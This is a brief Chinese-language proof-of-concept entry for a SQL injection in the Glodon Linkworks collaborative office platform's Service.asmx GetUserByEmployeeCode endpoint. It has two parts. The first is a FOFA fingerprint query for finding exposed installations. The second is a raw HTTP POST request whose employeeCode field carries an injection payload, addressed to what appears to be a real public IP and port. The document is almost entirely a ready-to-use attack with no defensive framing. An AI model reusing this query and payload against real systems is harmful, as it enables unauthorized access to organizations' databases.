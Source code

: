 # 广联达-Linkworks 协同办公管理平台 Service.asmx GetUserByEmployeeCode 文件 employeeCode 参数 SQL注入漏洞

    ## fofa

```
body="Services/Identification/login.ashx" || header="Services/Identification/login.ashx" || banner="Services/Identification/login.ashx"
```

## poc

```
POST /Org/service/Service.asmx/GetUserByEmployeeCode HTTP/1.1
Host: 112.245.48.187:8188
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
Content-Length: 39

employeeCode=1'-1/user--'&EncryptData=1
```
